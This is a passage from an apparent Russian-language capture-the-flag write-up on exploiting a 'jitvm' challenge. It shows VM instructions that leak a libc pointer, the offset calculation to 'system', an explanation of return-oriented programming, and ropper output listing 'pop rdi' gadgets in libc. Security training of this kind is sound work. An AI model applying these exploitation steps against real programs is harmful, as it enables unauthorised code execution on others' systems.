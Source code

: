 Видим, что нам повезло, и указатель куда-то внутрь libc лежал на `$rsp + 0x0038`. Это значит, что еще несколько `pop`'ов спустя мы получаем адрес инструкции в libc:

```asm
pop b
pop b
pop b
pop b
pop b
pop b
pop b
```

Осталось прибавить константу, чтобы `b` указывало на функцию `system`:

```c
gef➤  p/d (long long)system - 0x00007ffff7c23510
$2 = 176144
```

```asm
add b 176144
```

Наконец, осталось придумать, как передать `system` аргумент. В Linux x86-64 первый параметр функции передается через регистр `rdi`, а по коду jitvm видно, что `rdi` не изменяется во время работы программы и указывает на данные, который мы изменить особо не можем. Поэтому придется изменить сам регистр `rdi`, например, найдя в libc или памяти программы код, выглядящий как `pop rdi; ret` или что-то похожее. В таком случае мы сможем положить на стек адрес этого кода и рядом адрес `system`, и процессор при выходе из `main` сначала "вернется" в `pop rdi; ret`, достанет `rdi` со стека, а потом "вернется" в `system` с нужным значением аргумента. Называется этот метод [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming).

```shell
$ ropper -f /tmp/a.out --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi
```

Не повезло. Дальше можно было бы попытаться искать более сложные гаджеты, например, сначала сделать `pop` в другой регистр, а потом `mov rdi, ...`, но и такого не найдется.

Придется вспомнить, что помимо программы у нас есть еще и libc, и поискать там:

```shell
$ ropper -f libc.so.6 --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: libc.so.6
```

```asm
0x000000000008975d: pop rdi; add dword ptr [rcx + rcx*4 - 0x11], ecx; call qword ptr [rax + 0x18]; 
0x00000000000e6ecf: pop rdi; add eax, 0x83480000; mov ebp, 0xfffffb20; add byte ptr [rdi], cl; test dword ptr [rax - 0x9fffff7], edi; ret; 
0x0000000000195522: pop rdi; add edi, esi; ret; 
0x00000000001788a7: pop rdi; add rax, rdi; shr rax, 2; vzeroupper; ret; 
0x0000000000172877: pop rdi; add rax, rdi; vzeroupper; ret; 
0x00000000001796b5: pop rdi; add rdi, 0x21; add rax, rdi; vzeroupper; ret; 
0x00000000001604ae: pop rdi; add rsp, 0x10; pop rbx; ret; 
0x000000000005cf7b: pop rdi; add rsp, 0x1018; pop rbx; pop rbp; ret; 
0x000000000011e741: pop rdi; call rax; 
0x000000000011e741: pop rdi; call rax; mov rdi, rax; mov eax, 0x3c; syscall; 
0x000000000013a955: pop rdi; cmp ecx, dword ptr [rax]; add al, ch; mov ebp, edi; jmp qword ptr [rsi - 0x70]; 
```